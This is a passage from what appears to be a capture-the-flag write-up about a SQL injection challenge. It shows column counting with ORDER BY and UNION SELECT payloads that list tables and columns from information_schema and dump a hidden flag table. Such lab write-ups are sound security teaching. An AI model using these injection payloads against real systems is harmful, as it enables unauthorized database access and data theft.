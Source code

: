 ```sql
  idx int auto_increment primary key,
  fake_col1 varchar(128) not null,
  fake_col2 varchar(128) not null,
  fake_col3 varchar(128) not null,
  fake_col4 varchar(128) not null
);

INSERT INTO fake_table_name (fake_col1, fake_col2, fake_col3, fake_col4) values ('flag is ', 'DH{sam','ple','flag}');
```

We see that the columns and table names containing the `flag` are hidden, and the vulnerability in this challenge is `SQL injection`, which is clearly present in app.py because the `uid` and `upw` fields are not properly validated. I used `1' ORDER BY n-- -` and incremented n to check how many columns there were. When `n=5` caused an error, I deduced that there are a maximum of 4 columns. Then, I used the following payload to display the tables in `secret.db`

![pic1](https://hackmd.io/_uploads/H1Zq1Hb8yx.png)

`output` of

```sql
1' UNION SELECT NULL, NULL, NULL, table_name FROM information_schema.tables WHERE table_schema = 'secret_db'-- -
```

![pic2](https://hackmd.io/_uploads/Skoker-Ikg.png)

The name of the table containing the `flag` is `onlyflag`

`payload`

```sql
1' UNION SELECT NULL, NULL, NULL, column_name FROM information_schema.columns WHERE table_name = 'onlyflag'-- -
```

![pic3](https://hackmd.io/_uploads/Hka_lBbL1g.png)

The columns containing the `flag` are `sname`, `svalue`, `sflag`, `sclose`

`payload`

```sql
1' UNION SELECT svalue, sflag, sclose,NULL FROM onlyflag-- -
```

![pic4](https://hackmd.io/_uploads/Hy53Zrb8kx.png)

`payload`

```sql
1' UNION SELECT sclose,1,1,1 FROM onlyflag-- -
```

![pic5](https://hackmd.io/_uploads/B1QbzrWUyl.png)
